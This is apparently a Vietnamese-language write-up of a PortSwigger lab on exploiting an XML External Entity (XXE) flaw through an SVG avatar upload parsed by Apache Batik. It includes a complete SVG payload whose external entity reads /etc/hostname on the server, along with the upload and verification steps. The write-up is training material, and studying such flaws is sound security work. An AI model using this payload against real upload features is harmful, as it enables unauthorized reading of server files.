



# Write-up: Exploiting XXE via image file upload

### Tổng quan
Khai thác lỗ hổng XML External Entity (XXE) trong chức năng tải avatar bằng cách nhúng payload XXE vào file SVG, tận dụng Apache Batik library để xử lý file ảnh và đọc nội dung file `/etc/hostname`, sau đó submit hostname `f52c0a2b54fb` để hoàn thành lab.

### Mục tiêu
- Tạo và tải file SVG chứa payload XXE để hiển thị nội dung file `/etc/hostname`, lấy giá trị hostname và submit để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Kiểm tra chức năng comment trên giao diện web, nhận thấy có tùy chọn tải avatar (file ảnh).
- Trong Burp Suite Proxy, quan sát yêu cầu tải file avatar
    - **Quan sát**: Server sử dụng Apache Batik library để xử lý file SVG, gợi ý khả năng tồn tại lỗ hổng XXE do SVG hỗ trợ XML:

2. **Khai thác (Exploitation)**
- Tạo file SVG chứa payload XXE để đọc file `/etc/hostname`:
    ```xml
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px"
        xmlns="http://www.w3.org/2000/svg"
        xmlns:xlink="http://www.w3.org/1999/xlink"
        version="1.1">
      <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    ```
- Tải file SVG lên qua chức năng comment avatar.
    
- Truy cập trang hiển thị comment (ví dụ: /comment/view) hoặc ảnh avatar để xem kết quả:
    
    - **Phản hồi**: Nội dung file /etc/hostname hiển thị là f52c0a2b54fb:
    - **Giải thích**: Apache Batik xử lý file SVG, thực thi payload XXE trong DOCTYPE, đọc file `/etc/hostname` thông qua entity `&xxe;` do server không vô hiệu hóa xử lý external entities.

- Submit hostname `f52c0a2b54fb` qua nút "Submit solution":
    

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng XXE thông qua file SVG để đọc dữ liệu nội bộ trên server.
- Nhận thức tầm quan trọng của việc vô hiệu hóa xử lý external entities trong các thư viện xử lý XML như Apache Batik và kiểm tra chặt chẽ file tải lên.

### Tài liệu tham khảo
- PortSwigger: XML External Entity (XXE) Injection

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác XXE thông qua file SVG, tận dụng Apache Batik để đọc file nội bộ, và hiểu cách bảo vệ hệ thống khỏi XXE trong chức năng tải file. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*